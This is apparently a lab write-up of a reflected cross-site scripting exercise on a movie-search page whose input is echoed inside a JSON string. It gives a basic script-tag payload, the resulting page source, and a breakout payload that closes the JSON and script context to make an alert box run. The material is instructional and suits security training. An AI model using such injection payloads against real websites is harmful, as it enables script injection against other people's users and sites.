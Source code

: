 ## Page Content:

When we open the page we will see an input field which requires a movie name to be entered. If we entered a movie that already exists in the database we will see that a message will be displayed that says:

> Yes! We have that movie ..

And if not found then the message will be:

> \< Movie Name \>??? Sorry, we don't have that movie

That means any wrong entry will be reflected and that is what we are looking for in order to exploit the XSS vulnerability.

## First Trial:

When we try to enter a script to see the webpage's behaviour on encountering an unexpected input, like this script:

```javascript
<script> alert("XSS") </script>
```
The response we get is:
>??? Sorry, we don't have that movie :("}]}'; // var JSONResponse = eval ("(" + JSONResponseString + ")"); var JSONResponse = JSON.parse(JSONResponseString); document.getElementById("result").innerHTML=JSONResponse.movies[0].response;

And when we view the page source we find the following code snippet:

```javascript
<script>

var JSONResponseString = '{"movies":[{"response":"<script> alert("XSS")</script>??? Sorry, we don&#039;t have that movie :("}]}';
// var JSONResponse = eval ("(" + JSONResponseString + ")");
var JSONResponse = JSON.parse(JSONResponseString);   document.getElementById("result").innerHTML=JSONResponse.movies[0].response;

 </script>
```

We can see that the injected script is written between double quotes and when the code executes and it gets to the \<script\> tag in the payload it misses the other quote, which means that if we wish to run the script we want we have to close or opened brackets and quotes before writing our script, and that is by using the following code:

```javascript
("}]}';alert("XSS")</script>
```

And after that we will get an alert box with the message "XSS" inside it, which means that we had successfully managed to exploit the XSS vunerability in this webpage.

